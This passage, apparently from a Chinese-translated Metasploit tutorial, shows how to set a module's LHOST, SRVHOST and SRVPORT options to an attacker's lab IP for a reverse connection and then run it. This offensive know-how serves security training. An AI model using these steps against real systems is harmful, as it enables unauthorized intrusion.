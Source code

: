在前面的图中，我们可以看到**必需**列中哪些选项是必需的，哪些是不必需的。 **是**表示我们必须设置该选项，**否**表示该选项可以使用其默认设置。因此，第一个必需的选项是`LHOST`。它需要反向连接的 IP 地址，因此在这里我们设置攻击者的机器 IP。要这样做，请输入`set LHOST 192.168.11.23`。

![教程](img/3589_06_03.jpg)

设置`LHOST`地址后，下一个要设置的是`SRVHOST`。`SRVHOST`表示服务器本地主机地址。我们通过输入`set SRVHOST 192.168.11.23`来设置我们的本地机器地址。

![教程](img/3589_06_04.jpg)

现在，要设置`SRVPORT`，也就是本地端口地址，我们输入`set SRVPORT 80`。

![教程](img/3589_06_05.jpg)

所有设置都完成了。现在是运行辅助模块的时候了；输入`run`。

![教程](img/3589_06_06.jpg)
